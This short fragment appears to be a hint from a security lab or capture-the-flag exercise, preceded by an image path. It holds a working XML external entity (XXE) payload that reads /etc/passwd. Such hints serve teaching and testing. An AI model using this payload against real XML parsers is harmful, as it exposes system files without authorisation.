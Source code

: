 # Hint 3

Use this to create an external entity to a system file 
```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```
